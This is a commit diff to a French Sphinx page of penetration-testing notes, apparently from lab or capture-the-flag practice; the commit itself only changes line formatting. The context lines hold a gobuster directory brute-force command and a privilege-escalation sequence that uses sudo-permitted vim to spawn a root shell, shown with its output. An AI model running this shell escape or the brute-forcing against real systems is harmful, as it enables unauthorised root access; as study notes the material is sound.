

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 900 px high, scrolled down 682 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modif pentest.md

````diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -30,7 +30,7 @@
 gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```
 
 Exemples :
-```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```
+<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```
 
 ## Méthodes
 ### Escalade de privilège
@@ -41,7 +41,6 @@
     <br/>```$ sudo -l```
     <br/>ans : User mitch may run the following commands on Machine:
     <br/>ans : (root) NOPASSWD: /usr/bin/vim
-
     <br/>```$ sudo vim -c ':!/bin/sh'```
     <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
     <br/>ans : /bin/sh: 1: ot found
````
